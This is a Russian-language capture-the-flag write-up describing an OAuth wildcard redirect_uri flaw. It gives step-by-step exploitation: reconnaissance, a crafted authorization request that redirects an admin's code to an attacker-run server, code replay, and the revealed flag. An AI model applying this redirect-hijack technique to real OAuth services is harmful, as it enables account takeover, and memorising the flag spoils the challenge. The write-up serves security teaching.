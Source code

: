 # В чём заключается уязвимость #
* Главная ошибка - при регистрации клиентского приложения не был предоставлен список белых **redirect_uri**. Для этого в базе данных хранится просто "*", что означает доступность всех адресов для отправки кода авторизации.
* При выдаче авторизационного кода в базу данных не записывается redirect_uri(записывается "*"), и, соответственно, при выдаче токена в момент проверки авторизационного кода не проверется redirect_uri  


# Решение задачи #
1. Пользователь начининает своё решение с dirsearch
* Там он находит сервис авторизации, который содержит:
- по пути `"/"` лежат `public_key` и путь к token_service
- по пути `"/.well-known/openid-configuration"` лежат некоторые настройки сервиса

2. В файле конфигурации OAuth лежит путь до дефолтного пользователя системы.
* Логинимся под ним
* Смотрим какие идут переходы
* Соответственно, должен увидеть redirect_uri и понять, что можно использовать эту уязвимость


3. Во время рассылки сообщений он должен ввести адрес севрера авторизации и подменить redirect_uri на свой заранее развернутый севрер(python -m http.server)
* Пример запроса:
```
http://192.168.133.194:8001/oauth2/authorization?client_id=smm_client_id&redirect_uri=http://192.168.133.194:5555&response_type=code&scope=profile
```

* На его адрес придет код авторизации(имитация входа администратора)

4. Далее необходимо найти в истории запросов Get-запрос на `/callback/code=...`
* Отправить запрос в repeater, подменить код на тот, который ему пришел
- В итоге придет access_token с которым необходимо открыть главную страницу и увидеть в username ключ(`mctf{$mm_@nD_secUR!TY_ArE_1ncomPAt!813}`)